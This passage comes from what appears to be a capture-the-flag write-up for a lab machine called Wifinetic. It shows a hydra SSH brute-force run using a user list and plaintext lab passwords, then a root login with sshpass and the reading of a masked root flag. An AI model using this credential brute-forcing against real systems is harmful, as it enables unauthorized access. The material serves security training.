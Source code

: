If this were a real network, we could now connect to the `OpenWrt` network with the password we found. But in the case of the box, we can just add the PSK to our `passwords.txt` file.

### Hyrda Round 2

Now that we have an updated `potential_users.txt` and `passwords` file, we can try to brute force the ssh port again.

```console
toasty@par$ cat potential_users.txt 
ayoung33
bwhite3
dmorgan99
dwright27
eroberts25
jallen10
janderson42
jletap77
kgarcia22
lturner56
mhughes12
mickhat
mrobinson78
nlee61
owalker17
pharris47
root
rturner45
sjohnson98
tcarter90
tclark84
toasty@par$ cat passwords.txt 
VeRyUniUqWiFIPasswrd1!
$p$root
WhatIsRealAnDWhAtIsNot51121!
toasty@par$ hydra -L potential_users.txt -P passwords.txt ssh://10.10.11.247
..SNIP

[22][ssh] host: 10.10.11.247   login: root   password: WhatIsRealAnDWhAtIsNot51121!
1 of 1 target successfully completed, 1 valid password found
```

We can now `ssh` in as `root` with the password we found.

### SSH as Root

```console
toasty@par$ sshpass -p WhatIsRealAnDWhAtIsNot51121! ssh root@10.10.11.247
.. SNIP

Last login: Thu Sep 21 21:07:02 2023 from 10.10.11.247
root@wifinetic:~# id
uid=0(root) gid=0(root) groups=0(root)
```

### Root.txt

All that is left is to grab the root flag.

```console
root@wifinetic:~# ls
root.txt  snap

root@wifinetic:~# cat root.txt 
1153***************************
```

